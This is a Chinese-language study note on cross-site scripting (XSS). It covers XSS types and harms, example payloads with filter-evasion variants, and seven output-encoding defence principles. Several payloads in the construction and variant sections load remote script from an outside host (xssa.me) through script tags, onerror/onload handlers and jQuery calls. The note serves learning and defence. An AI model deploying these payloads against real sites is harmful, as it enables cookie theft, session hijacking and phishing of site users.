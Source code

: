 ```yaml
---
title: XSS - 笔记整理
date: 2017-08-31 18:21:02
tags: Web
---
```


>   XSS(Cross Site Scripting)

>   用户输入超出开发者预期的数据，导致在网页中添加或修改页面代码，从而执行恶意操作。

### XSS的分类
- 反射型XSS
- 持久型XSS
- DOM-based型XSS（客户端注入）
<!-- more -->

### XSS的危害
- Cookie资料窃取
- 劫持用户会话
- 广告弹窗
- 网页挂马
- 网站钓鱼
- 按键记录
- ...(JS能完成的任何功能)

### XSS的构造
- ##### 利用<>标记注入HTML/JavaScript标签
```
    <script>alert(1)</script>

    <sCRiPt sRC=http://xssa.me/EXgq></sCrIpT>
```

- ##### 利用HTML标签属性值执行XSS
```
    <a href="javascript:alert(1)">click me</a>

    ...除href/src外的其它类似属性
```

- ##### 在HTML标签中注入事件
```
    <img src=x onerror="javascript:alert(/XSS/)">

    <img src=logo.png onload=s=createElement('script');body.appendChild(s);s.src='http://xssa.me/EXgq';>

    <input onfocus=a='scr';s=createElement(a+'ipt');body.appendChild(s);s.src='http://xssa.me/EXgq'; autofocus>
    
    ...各种on事件
```

- ##### 利用CSS跨站
>   尝试多种样式表(css),均无效。原因未知

### XSS的变形
```
    <sCRiPt/SrC=//xssa.me/EXgq>

    <ScRiPt/**/src=http://xssa.me/EXgq></ScRiPt>

    <img src=1 onerror=$.get('http://xssa.me/EXgq')>      (jquery)

    eval($.get('http://xssa.me/EXgq'))            (jquery)

    <svg/onload=document.body.appendChild(document.createElement(/script/.source)).src='http://xssa.me/EXgq'
```

### XSS的防御

原则1：不要在页面中插入任何不可信数据，除非这些数已经据根据下面几个原则进行了编码

原则2：在将不可信数据插入到HTML标签之间时，对这些数据进行HTML Entity编码

**HTML Entity编码**
```
&     –>     &amp;
<     –>     &lt;
>     –>     &gt;
”     –>     &quot;
‘     –>     &#x27;
/     –>     &#x2f;
```
原则3：在将不可信数据插入到HTML属性里时，对这些数据进行HTML属性编码
>   除了阿拉伯数字和字母，对其他所有的字符进行编码，只要该字符的ASCII码小于256。编码后输出的格式为 &#xHH; （以&#x开头，HH则是指该字符对应的十六进制数字，分号作为结束符）

>   之所以编码规则如此严格，是因为开发者有时会忘记给属性的值部分加上引号。如果属性值部分没有使用引号的话，攻击者很容易就能闭合掉当前属性，随后即可插入攻击脚本。例如，如果属性没有使用引号，又没有对数据进行严格编码，那么一个空格符就可以闭合掉当前属性。

>   除了空格符可以闭合当前属性外，这些符号也可以：
%     *     +     ,     –     /     ;     <     =     >     ^     |     `(反单引号，IE会认为它是单引号)


原则4：在将不可信数据插入到SCRIPT里时，对这些数据进行SCRIPT编码
>   除了阿拉伯数字和字母，对其他所有的字符进行编码，只要该字符的ASCII码小于256。编码后输出的格式为 \xHH （以 \x 开头，HH则是指该字符对应的十六进制数字

>   在对不可信数据做编码的时候，千万不能图方便使用反斜杠（ \ ）对特殊字符进行简单转义，比如将双引号 ” 转义成 \” ，这样做是不可靠的，因为浏览器在对页面做解析的时候，会先进行HTML解析，然后才是JavaScript解析，所以双引号很可能会被当做HTML字符进行HTML解析，这时双引号就可以突破代码的值部分，使得攻击者可以继续进行XSS攻击。

原则5：在将不可信数据插入到Style属性里时，对这些数据进行CSS编码
>   除了阿拉伯数字和字母，对其他所有的字符进行编码，只要该字符的ASCII码小于256。编码后输出的格式为 \HH （以 \ 开头，HH则是指该字符对应的十六进制数字）

原则6：在将不可信数据插入到HTML URL里时，对这些数据进行URL编码
>   除了阿拉伯数字和字母，对其他所有的字符进行编码，只要该字符的ASCII码小于256。编码后输出的格式为 %HH （以 % 开头，HH则是指该字符对应的十六进制数字）
>   在对URL进行编码的时候，有两点是需要特别注意的：
>   1) URL属性应该使用引号将值部分包围起来，否则攻击者可以很容易突破当前属性区域，插入后续攻击代码
>   2) 不要对整个URL进行编码，因为不可信数据可能会被插入到href, src或者其他以URL为基础的属性里，这时需要对数据的起始部分的协议字段进行验证，否则攻击者可以改变URL的协议，例如从HTTP协议改为DATA伪协议，或者javascript伪协议。

原则7：使用富文本时，使用XSS规则引擎进行编码过滤
>   针对富文本的特殊性，我们可以使用XSS规则引擎对用户输入进行编码过滤，只允许用户输入安全的HTML标签，如 b, i, p等，对其他数据进行HTML编码。需要注意的是，经过规则引擎编码过滤后的内容只能放在div, p等安全的HTML标签里，不要放到HTML标签的属性值里，更不要放到HTML事件处理属性里，或者放到SCRIPT标签里。

### XSS Cheat Sheet
[https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

### 参考资料
- 《XSS跨站脚本 攻击剖析与防御》[PDF 百度云](https://pan.baidu.com/s/1cwDUhg) (PS:书写的很一般，没必要买实体书，虽说我买了。)
- [防御XSS的七条原则](http://www.freebuf.com/articles/web/9977.html)
- [XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)